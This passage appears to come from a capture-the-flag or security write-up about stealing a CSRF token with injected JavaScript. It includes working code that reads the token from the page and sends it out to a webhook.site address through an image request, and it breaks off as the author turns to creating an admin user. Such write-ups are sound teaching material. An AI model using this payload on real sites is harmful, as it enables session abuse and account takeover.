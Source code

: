 ## Give me the Token

To retrieve the `CSRF` token, I used the following code:

```javascript
let csrfToken = document.querySelector('meta[name="csrf-token"]').getAttribute('content');
alert(csrfToken);
```

Here’s how it works: First, I used the `document.querySelector` method to find a `meta` tag with the attribute `name="csrf-token"`. The selector `'meta[name="csrf-token"]'` specifically targets this tag within the document. Once the meta tag is located, the `getAttribute` method is called to extract the value of its `content` attribute, which contains the actual `CSRF` token. This value is then stored in the `csrfToken` variable. Finally, the `alert` function is used to display the value of `csrfToken`.

![image](https://github.com/user-attachments/assets/76fee310-a845-4822-a506-61ff330c1de6)

Seeing that the approach was successful, I proceeded to steal the `CSRF` token and send it to my server using `webhook.site`. Here’s the updated code:

```javascript
let csrfToken = document.querySelector('meta[name="csrf-token"]').getAttribute('content');
let url = "https://webhook.site/hereShouldHaveYourID/";
url += "?token=" + encodeURIComponent(csrfToken);
let i = new Image();
i.src = url;
```

After retrieving the `CSRF` token and storing it in the `csrfToken` variable, I set up the base URL for my webhook site. The `CSRF` token is then appended as a query parameter to the URL using `encodeURIComponent` to ensure it’s safely included. Finally, the script creates an image object and sets its `src` to the constructed URL, triggering a `GET` request that sends the `CSRF` token to my server.

![image](https://github.com/user-attachments/assets/2843ab7b-3cde-4667-8294-f0415a2aea31)

As shown, I successfully stole the `CSRF` token using this method.



![image](https://github.com/user-attachments/assets/7973d9bc-c0c2-473d-9cdb-09a0e1da8b49)




## Add New User

After successfully stealing the `CSRF` token, I considered whether it was worth pursuing the traditional `CSRF` attack route—injecting the stolen token into a request and sending a `CSRF` payload to the `admin`, hoping they would click on it. But why stop there when we can be more creative? Since we can retrieve the `CSRF` token and inject JavaScript into the `admin`'s browser, we can take a more direct approach by executing a request directly through the `admin`'s browser using JavaScript.

Here’s how I updated the code:
